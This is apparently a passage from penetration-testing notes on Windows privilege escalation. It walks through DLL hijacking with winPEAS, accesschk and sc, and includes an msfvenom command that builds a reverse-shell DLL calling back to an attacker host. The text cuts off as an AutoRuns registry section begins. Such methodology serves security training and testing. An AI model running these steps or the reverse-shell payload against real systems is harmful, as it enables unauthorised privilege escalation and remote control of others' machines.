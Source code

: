 If a DLL is missing from the system and our user has to have write access to a directory within the PATH where Windows looks for DLLs, this is a more common misconfiguration that can be used to escalate privileges.&#x20;

#### DLL Hijacking Privilege Escalation

1.  To enumerate non-Windows services, we can use winPEAS:

    ```
    > .\winPEASany.exe quiet servicesinfo
    ```
2.  Find a directory that is writable and in the PATH. Begin by enumerating which of these services our user has stop and start access to:

    ```
    > .\accesschk.exe /accepteula -uvqc user service_name
    ```
3.  If the service is vulnerable to DLL Hijacking.

    ```
    > sc qc service_name
    ```

    > Note: Use ProcMon.exe to see if the executable uses any DLL files.
4.  Start the service:

    ```
    > net start service_name
    ```
5.  On our host, we'll generate a reverse shell DLL named dll\_hijacking.dll:

    ```
    # msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o dll_hijacking.dll
    ```
6.  Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on our host (e.g Kali or Parrot) and then stop/start the service to trigger the exploit:

    ```
    > net stop service_name
    > net start service_name
    ```

## Registry

### AutoRuns

When Windows starts up, it may be configured to perform commands with elevated privileges. These "AutoRuns" are set up via the Registry. If you can write to an AutoRun executable and restart the system, you might be able to elevate privileges (or wait for it to restart).

#### AutoRuns Privilege Escalation Methodology
